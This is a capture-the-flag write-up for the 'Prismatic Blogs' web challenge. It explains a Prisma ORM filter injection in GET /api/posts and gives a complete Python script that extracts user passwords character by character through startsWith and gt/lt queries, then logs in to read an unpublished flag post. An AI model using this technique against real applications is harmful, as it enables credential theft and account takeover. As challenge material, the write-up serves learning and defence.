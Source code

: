 ```yaml
---
category: web
---
```

# Prismatic Blogs

## Information
The problem gives you the following files:
- `index.js`
- `package.json`
- `schema.prisma`
- `seed.js`

From this, we know it is a Node JS project that relies on the Prisma ORM.

In `index.js`, we get two routes:
- `GET /api/posts`
- `POST /api/login`

In `schema.prisma` we learn that posts are either published or unpublished.

In `seed.js` we learn the users' names and that their passwords are random. We also find that there is an unpublished post that contains the flag:
```json
{
	title: `The Flag`,
	body: `This is a secret blog I am still working on. The secret keyword for this blog is ${FLAG}`,
	authorId: Math.floor(Math.random()*NUM_USERS)+1,
	published: false
}
```

`GET /api/posts` does hides unpublished posts, but `POST /api/login` shows published posts. Therefore, the exploit must find the user credentials.

## Exploit

`GET /api/posts` has a pseudo-SQL injection problem, since it uses `req.query`, attacker-controlled data, as the `where` clause in the Prisma ORM:
```js
app.get(
  "/api/posts",
  async (req, res) => {
    try {
      let query = req.query;
      query.published = true;
      let posts = await prisma.post.findMany({where: query});
      res.json({success: true, posts})
    } catch (error) {
      res.json({ success: false, error });
    }
  }
);
```

For example:
![[Pasted image 20250121131821.png]]

We can use this to make a request to `/api/posts?author[name]={name}&author[password][startsWith]={password}` to determine the password. However, `startsWith` does a case-insensitive search, so once we find the passwords, we need to use `gt` and `lt` to do alphabetical string comparison.

Here is the full script:
```python
import requests
import pwn

pwn.log.level = pwn.logging.DEBUG

URL = "http://localhost:3000"

names = ["White", "Bob", "Tommy", "Sam"]
characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

def check_password_starts_with(name: str, password: str) -> bool:
    url = f"{URL}/api/posts?author[name]={name}&author[password][startsWith]={password}"
    pwn.debug(f"{name} {password}")
    data = requests.get(url).json()
    return len(data["posts"]) > 0

def find_password(name: str) -> str:
    password = ""
    for _ in range(100):
        for char in characters:
            if check_password_starts_with(name, password + char):
                password += char
                break
        else:
            break
    return password

def check_password_casing(name: str, password: str) -> bool:
    url = f"{URL}/api/posts?author[name]={name}&author[password][gt]={password}a&author[password][lt]={password}z"
    pwn.debug(f"{name} {password}")
    data = requests.get(url).json()
    return len(data["posts"]) > 0

def find_password_casing(name: str, password: str) -> str:
    fixed_password = ""
    for char in password:
        if check_password_casing(name, fixed_password):
            fixed_password += char.lower()
        else:
            fixed_password += char.upper()
    return fixed_password

def get_flag(name: str, password: str):
    url = f"{URL}/api/login"
    data = requests.post(url, json={"name": name, "password": password}).json()
    for post in data["posts"]:
        if "uoft" in post["body"].lower():
            pwn.info(post["body"])

passwords = {}

for name in names:
    password = find_password(name)
    password = find_password_casing(name, password)
    passwords[name] = password

for name, password in passwords.items():
    pwn.info(f"{name}'s password is {password}")
    get_flag(name, password)
```